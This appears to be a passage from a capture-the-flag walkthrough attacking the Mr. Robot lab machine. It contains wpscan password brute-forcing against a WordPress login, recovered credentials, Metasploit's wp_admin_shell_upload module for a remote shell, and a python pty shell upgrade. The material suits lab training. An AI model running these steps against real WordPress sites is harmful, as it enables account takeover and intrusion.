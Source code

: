  ```
 wpscan --url 192.168.0.6 --passwords elliot_password.txt --usernames Elliot  
```
And we got it
<img src="./img/Pasted image 20240811212115.png"></img>
Now the combination are:
```
username:Elliot
password:ER28-0652
```
```
http://192.168.0.6/wp-login.php
http://192.168.0.6/key-1-of-3.txt
192.168.0.6/fsocity.dic
```
Now login into Wordpress using creditionals
Let now open a reverse shell.
Simple method to open a shell  using metasploit.
1.open msfconsole
2.search for wordpress shell
follow the cmds
```
msfconsole
search wordpress shell
use exploit/unix/webapp/wp_admin_shell_upload
set RHOST target ip address
set USERNAME Elliot
set PASSWORD ER28-0652
set WPCHECK False
run
```
We got the meterpreter shell open now
now open a session by typing the cmd.
```
shell
```
And open sh shell by using cmd.
```
python -c 'import pty; pty.spawn("/bin/sh")'
```